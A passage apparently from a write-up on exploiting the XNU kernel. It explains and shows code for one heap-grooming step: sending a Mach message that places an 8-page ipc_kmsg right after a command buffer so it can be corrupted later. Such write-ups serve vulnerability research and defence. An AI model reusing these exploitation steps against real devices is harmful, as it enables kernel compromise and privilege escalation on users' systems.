 ![Screenshot 2025-09-10 at 3.03.06 AM.png](pics/Screenshot_2025-09-10_at_3.03.06_AM.png)

## 3. Allocation of ipc_kmsg to be corrupted later

Now allocate a single 8-page ipc_kmsg and store it in `corrupted_kmsg_port` for keeping. That `ipc_kmsg` will reside after command-buffer pageable map.

To allocate `ipc_kmsg`, `send_message` function is called; Its function specifies the destination port that will receive message, the send right used to transmit it, the message size, and other related settings.

```cpp
kern_return_t send_message(mach_port_t destination, void *buffer, mach_msg_size_t size) {
    mach_msg_size_t msg_size = sizeof(struct simple_msg) + size;
    struct simple_msg *msg = malloc(msg_size);
    
    memset(msg, 0, sizeof(struct simple_msg));
    
    msg->hdr.msgh_remote_port = destination;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = msg_size;
    
    memcpy(&msg->buf[0], buffer, size);
    
    kern_return_t ret = mach_msg(&msg->hdr, MACH_SEND_MSG, msg_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        printf("[-] failed to send message\n");
        mach_port_destroy(mach_task_self(), destination);
        free(msg);
        return ret;
    }
    free(msg);
    return KERN_SUCCESS;
}

...

// port which we will later corrupt. should be exactly after command buffer
    mach_port_t corrupted_kmsg_port = POP_PORT();
    ret = send_message(corrupted_kmsg_port, data, (uint32_t)message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg));
    if (ret) {
        printf("[-] Failed to send message\n");
        goto err;
    }
```
